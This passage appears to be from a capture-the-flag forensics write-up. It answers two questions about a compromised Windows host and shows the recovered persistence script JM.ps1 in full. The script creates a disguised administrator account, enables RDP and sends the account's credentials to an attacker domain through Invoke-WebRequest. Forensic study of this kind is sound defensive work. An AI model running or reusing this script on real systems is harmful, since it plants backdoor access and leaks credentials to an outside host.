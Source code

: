 ## Q08 – What domain name did the attacker use for credential exfiltration? (domain)

**Answer:**  
`NapoleonsBlackPearl.htb`

**How it was found:**  
I examined the extracted persistence PowerShell script `JM.ps1` (path: `The_Enduring_Echo/…/C/Users/Werni/AppData/Local/JM.ps1`). The script selects a username from an array, generates a timestamp-based password, creates the account, and then exfiltrates the credentials to an attacker-controlled domain. The domain name is hard-coded in the script and appears in the exfiltration routine.

```
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```
## Q09 – What password did the attacker's script generate for the newly created user? (string)

**Answer:**  
`Watson_20250824160509`

**How it was found:**  
`JM.ps1` generates passwords using a fixed prefix (`Watson_`) plus the script execution timestamp. Although the user creation event (`svc_netupd`) shows a UTC timestamp of `2025-08-24T23:05:09.7646587`, the scheduled task metadata indicates the script was configured to run at **local time** `2025-08-24T16:03:00` (with a 2‑minute interval). Accounting for the local time used by the scheduled task (and the task’s actual execution offset), the timestamp portion used by the script resolves to `20250824160509`, producing the final password `Watson_20250824160509`.
